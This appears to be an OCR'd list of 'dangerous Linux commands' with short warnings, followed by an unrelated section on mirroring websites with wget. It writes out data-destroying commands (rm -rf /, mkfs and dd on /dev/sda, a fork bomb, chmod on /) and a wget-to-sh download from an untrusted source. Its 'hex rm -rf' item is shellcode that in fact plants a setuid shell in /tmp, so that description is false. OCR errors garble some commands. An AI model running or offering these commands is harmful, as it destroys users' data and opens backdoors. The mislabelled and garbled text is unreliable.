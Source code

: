 # Dangerous Linux Commands

1.  Code:
    This command will recursively and forcefully delete all the files inside the root directory.


    rm -rf /

2.  Code:
    This is the hex version of [rm -rf /] that can deceive even the rather experienced Linux users.


    char esp[] _attribute_ ((section(".text"))) /* e.s.p
    release */
    = "\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68"
    "\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99"
    "\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7"
    "\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56"
    "\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31"
    "\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69"
    "\x6e\x2f\x73\x68\x00\x2d\x63\x00"
    "cp -p /bin/sh /tmp/.beyond; chmod 4755
    /tmp/.beyond;";

3.  Code:
    mkfs.ext3 /dev/sda

This will reformat or wipeout all the files of the device that is mentioned after the mkfs command.

4.  Code:
    :(){:|:&};:

Known as fork bomb, this command will tell your system to execute a huge number of processes until the system freezes. This can often lead to corruption of data.

5.  Code:
    any_command > /dev/sda

With this command, raw data will be written to a block device that can usually clobber the filesystem resulting in total loss of data.

6.  Code:
    wget <http://some_untrusted_source> O | sh

Never download from untrusted sources, and then execute the possibly malicious codes that they are giving you.

7.  Code:
    mv ~/_ /dev/null
    mv /home/yourhomedirectory/_ /dev/null

This command will move all the files inside your home directory to a place that doesn't exist; hence you will never ever see those files again.

8.  Code:
    dd if=/dev/urandom of=/dev/sda

This command fill your hard disk partition with some random data

9.  Code:
    chmod -R 777 /

This comand make your system world writable.

10. Code:
    chmod 000 -R /
    chown nobody:nobody -R /

This command removes all the access priviledge from all the users except root

11. Code:
    yes > /dev/sda

This command fill your hard disk with the character 'y'

12.Code:
rm -rf /boot/
Description:
Will delete Kernel , Initrd , and GRUB/LILO Files
(Needed for Linux Startup)

rm /boot/vmlinux
rm /boot/vmlinuz
rm /boot/vmlinux_
rm /boot/vmlinuz_
Delete the Linux kernel

rm /bin/init
cd / ; find -iname init -exec rm -rf {} \\;

Deletes any file with "init" in it including /sbin/init.

### wget

**Download Entire Website**
This command downloads the Web site www.website.com:
```shell
    wget -m --wait=9 --limit-rate=10K http://website.com
```
Alternative with more options:
```shell
    wget --recursive --no-clobber --page-requisites --html-extension --convert-links --restrict-file-names=windows --domains website.org --no-parent www.website.com/
```
Options:
```shell
-   \--recursive: download the entire Web site.
-   \--domains website.org: don't follow links outside website.org.
-   \--page-requisites: get all the elements that compose the page (images, CSS and so on).
-   \--no-parent: don't follow links outside the directory tutorials/html/.
-   \--html-extension: save files with the .html extension.
-   \--restrict-file-names=windows: modify filenames so that they will work in Windows as well.
-   \--convert-links: convert links so that they work locally, off-line.
-   \--no-clobber: don't overwrite any existing files (used in case the download is interrupted and resumed).
```
